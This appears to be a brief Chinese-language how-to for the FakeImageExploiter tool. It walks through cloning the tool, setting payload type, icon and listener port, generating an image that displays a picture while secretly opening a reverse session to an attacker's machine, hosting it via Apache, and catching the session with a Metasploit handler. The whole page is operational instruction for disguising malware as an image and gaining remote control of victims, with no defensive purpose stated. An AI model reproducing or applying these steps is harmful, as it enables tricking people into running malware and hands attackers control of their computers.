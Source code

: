 # 生成

使用`FakeImageExploiter`

## 环境

1. 安装

   `git clone https://github.com/r00t-3xp10it/FakeImageExploiter.git`

2. 配置`setting`

  `vim setting`

   选项：

    图片格式有
     默认 `PICTURE_EXTENSION=jpg` 有这几种 `jpg | jpeg | png | etc`

    隐藏在图片中的`Payload`格式
     `PAYLOAD_EXTENSION=bat` 其余有 `ps1 | bat | txt | exe`

    选择`PAYLOAD_EXETNSION=bat；`

    在`icon`选项中 (图片文件的替换图标)
    `BYPASS_RH=NO`
    选择`BYPASS_RH=NO`，非自动，需要手动更改和添加最终生成的图片图标`icon`

    同样，在`setting`文件中找到以下两列进行按需修改：

    `AUTO_PAYLOAD_BUILD=YES` （自动生成Payload选项）

    `AGENT_HANLER_PORT=4444`（植入恶意程序后的客户端监听端口）

3. 运行

    `./ FakeImageExploiter.sh` 安装所需内容后，进入
    1. 选择payload
    2. 选择伪装的图片
    3. 选择图标
    4. 为生成图片命名

    FakeImageExploiter最后会生成在两个位置生成恶意图片文件
    1. 一个为本机`Apache2 web`服务的根目录下的`.zip`文件
    2. 另外为FakeImageExploiter输出文件夹（`output`）下的隐藏后缀恶意图片文件，点击执行后，该文件在显示jpg图像的同时，还会隐秘生成一个连向控制主机的反弹管理会话

4. msf 运行 meterpreter -最新可自动运行

    msfconsole
    use exploit/multi/handler
    set payload windows/metterpreter/之前选择的payload

